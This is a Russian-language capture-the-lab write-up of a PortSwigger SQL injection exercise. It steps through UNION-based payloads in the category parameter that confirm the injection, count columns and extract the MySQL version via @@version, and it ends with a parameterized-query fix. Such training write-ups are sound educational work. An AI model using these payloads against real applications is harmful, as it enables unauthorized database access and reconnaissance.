


## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection — Examining the Database  
**Сложность:** Practitioner  
**Дата:** 2025-07-08  

---

## TL;DR
Приложение уязвимо к UNION-based SQL-инъекции в параметре `category`.
Через `@@version` получила версию MySQL базы данных.

---

## Описание уязвимости
Параметр `category` подставляется напрямую в SQL-запрос без экранирования.
UNION-атака позволяет присоединить результат произвольного SELECT
к оригинальному запросу и получить данные из БД.

Особенности MySQL и MSSQL по сравнению с Oracle:
- Версия хранится в `@@version` а не в `v$version`
- Комментарий — `#` или `-- -` а не просто `--`
- `FROM dual` не нужен

---
## Разведка

### Шаг 1 — Подтверждаем SQLi
Ввела в адресную строку браузера:

```
/filter?category=' OR 1=1-- -
```

Страница вернула все товары включая скрытые — инъекция работает.



### Шаг 2 — Определяем количество столбцов
Проверяем через ORDER BY:

```
/filter?category=' UNION SELECT NULL-- -  ← ошибка
/filter?category=' UNION SELECT NULL,NULL-- - 
/filter?category=' UNION SELECT NULL,NULL,NULL-- -  ← ошибка
```

Вывод: два столбца.

### Шаг 3 — Проверяем типы столбцов
```
/filter?category=' UNION SELECT 'abc','def'-- -
```

Ответ 200, строки отобразились → оба столбца строковые.

---

## Эксплуатация

### Финальный payload
```
/filter?category=' UNION SELECT @@version, NULL#
```

Итоговый SQL-запрос на сервере:
```sql
SELECT * FROM products WHERE category = ''
UNION SELECT @@version, NULL#'
```

Страница вернула версию БД:
```
8.0.36-0ubuntu0.20.04.1
```



Лаба решена.

---

## Сравнение MySQL / MSSQL vs Oracle

| | MySQL / MSSQL | Oracle |
|---|---|---|
| Версия | `@@version` | `v$version` |
| Комментарий | `#` или `-- -` | `--` |
| FROM обязателен | Нет | Да (`FROM dual`) |
| Разделитель | `,` | `,` |

---

## Итог
Через `@@version` получила точную версию MySQL.
Эта информация даёт атакующему возможность искать CVE
под конкретную версию СУБД.

---

## Защита

```python
# Параметризованный запрос — единственная надёжная защита:
cursor.execute(
    "SELECT * FROM products WHERE category = %s",
    (category,)
)
# MySQL использует %s синтаксис
# Пользовательский ввод никогда не интерпретируется как SQL
```